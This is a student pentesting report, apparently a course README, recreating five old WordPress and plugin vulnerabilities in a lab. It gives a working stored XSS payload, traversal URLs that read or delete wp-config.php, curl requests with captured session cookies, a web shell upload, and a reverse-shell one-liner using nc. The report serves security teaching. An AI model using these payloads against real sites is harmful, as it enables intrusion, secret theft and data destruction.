 # Project 7 - WordPress Pentesting

Time spent: **27+** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - <a href="https://www.exploit-db.com/exploits/36844/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
    ![GIF Walkthrough](./img/1.gif)
  - [ ] Steps to recreate: 
     - From the main page click on the post with open comments section
     - Scroll to the comment form and fill the fields
        - In the comment content field paste (the comment has to be at least 64kb long): 
            ```html
                <a title='x onmouseover=alert(unescape(/hello%20world/.source)) 
                style=position:absolute;left:0;top:0;width:5000px;height:5000px  
                AAAAA...[64kb]..AAA'></a>
            ```
    - Post it and get approval from the admin
    - Visit the page with your comment posted
  - [ ] Affected source code:
    - [tags/4.9.8/src/wp-includes/comment.php](https://core.trac.wordpress.org/browser/tags/4.9.8/src/wp-includes/comment.php#L0)

2. Wordpress CodeArt Google MP3 Player plugin - File Disclosure Download
  - [ ] Summary: 
    - Vulnerability types: IDOR
    - <a href="https://www.exploit-db.com/exploits/35460/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: N/A
    - Plugin version: <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">1.0.11</a>
    - Plugin fixed version: plugin deleted from wordpress repository
    - ![GIF Walkthrough](./img/2.gif)
  - [ ] Steps to recreate: 
     - Install the <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">plugin</a>
     - Unauthenticated user can follow this URL [http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php](http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php) and access config file with authentication unique keys and salts.
  - [ ] Affected source code:
    - [wp-content/plugins/google-mp3-audio-player/direct_download.php](https://github.com/cpom/encoremtl/blob/master/wp-content/plugins/google-mp3-audio-player/direct_download.php)

3. Wordpress <= 4.9.6 Arbitrary File Deletion Vulnerability Exploit
  - [ ] Summary: 
    - Vulnerability types: CSRF
    - <a href="https://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: 4.9.7
    - ![GIF Walkthrough](./img/3.gif)
  - [ ] Steps to recreate: 
     - Login to an account that has an Author role
     - Add an image to library
     - Click on "Edit more details"
     - In the HTML source find a hidden input with an id "_wpnonce" and copy it's value
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'```
     - Copy the cookies from Burp and paste them after -H attribute
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=editattachment&_wpnonce=[value]&thumb=../../../../wp-config.php'```
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=editattachment&_wpnonce=8162d5bb40&thumb=../../../../wp-config.php'
        ```
     - Copy "_wpnonce" value from the link with "submitdelete deletion" class
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=delete&_wpnonce=***'```
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=delete&_wpnonce=[value]'```
     - Copy the cookies from Burp and paste them after -H attribute
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=delete&_wpnonce=17b7da78d8'
        ```
     - Refresh wp-admin page

  - [ ] Affected source code:
    - [/tags/4.9.6/src/wp-admin/includes/ajax-actions.php](https://core.trac.wordpress.org/browser/tags/4.9.6/src/wp-admin/includes/ajax-actions.php)

4. WordPress 3.x, 4.x Path Traversal + Directory Listing + File Deletion Vulnerabilities
  - [ ] Summary: 
    - Vulnerability types: Directory traversal/IDOR
    - <a href="https://www.homelab.it/index.php/2014/08/06/wordpress-3-4-vulnerabilities/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: 4.9.8
    ![GIF Walkthrough](./img/4.gif)
  - [ ] Steps to recreate: 
     - Choose a plugin
     - Click on "Deactivate" and "Delete" buttons
     - Replace plugin location with target directory in the url.
        Example: ```http://localhost/wp-admin/plugins.php?action=delete-selected&checked[0]=../../../../var/www/.&plugin_status=all&paged=1&s&_wpnonce=1154979245```
     - Click on "Yes delete these files"
  - [ ] Affected source code:
    - [tags/4.9.8/src/wp-admin/plugins.php](https://core.trac.wordpress.org/browser/tags/4.9.8/src/wp-admin/plugins.php)

5. Wordpress Work the flow file upload 2.5.2 Shell Upload Vulnerability
  - [ ] Summary: 
    - Vulnerability types: Arbitrary Code Execution
    - <a href="https://www.exploit-db.com/exploits/36640/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: N/A
    - Plugin version: <a href="./plugins_repo/work-the-flow-file-upload.2.5.2.zip" target="_blank">2.5.2</a>
    - Plugin fixed version: plugin deleted from wordpress repository
    ![GIF Walkthrough](./img/5.gif)
  - [ ] Steps to recreate: 
     - Install the <a href="./plugins_repo/work-the-flow-file-upload.2.5.2.zip" target="_blank">plugin</a>
     - Unauthenticated user can upload the <a href="./shell_scripts/shell.php" target="_blank">shell script</a> by running this code 
     ```bash
     curl -k -X POST -F "action=upload" -F "files=@./shell.php" http://wpdistillery.vm/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php
     ```
     - Unauthenticated user can run shell scripts on the server.
        Example: (Taken from: https://blaksec.com/index.php?title=DerpNStink:_1_~_VulnHub_-_Walkthrough#Exploitation)
     ```bash
     curl http://wpdistillery.vm/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell.php?cmd=hostname
     
     nc -lt -p 4444
     
     curl -G "http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/shell.php" --data-urlencode "cmd=rm -f /tmp/backpipe; mkfifo /tmp/backpipe; cat /tmp/backpipe | /bin/sh -i 2>&1|nc 192.168.56.203 4444 >/tmp/backpipe"
     ```
  - [ ] Affected source code:
    - [tags/4.2/src/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php]("./plugins_repo/index.php")

## Assets

<a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">A plugin</a>for vulnerability #2.
<a href="./plugins_repo/work-the-flow-file-upload.2.5.2.zip" target="_blank">A plugin</a>for vulnerability #5.
<a href="./shell_scripts/shell.php" target="_blank">Shell script</a> for vulnerability #5.

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

It was hard to find any exploits that actually work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.